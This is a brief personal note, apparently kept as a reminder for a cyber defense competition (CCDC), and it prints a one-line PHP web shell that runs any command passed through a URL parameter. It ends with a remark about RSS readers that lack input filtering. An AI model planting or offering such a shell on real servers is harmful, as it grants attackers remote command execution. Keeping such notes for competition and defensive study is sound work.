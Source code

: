= PHP Web Shell
:hp-tags: ccdc, webshell

This is mostly for my memory for CCDC

```php
<?php system($_GET['cmd']); ?>
```

I wonder what will happen if a RSS reader doesn't do proper filtering...
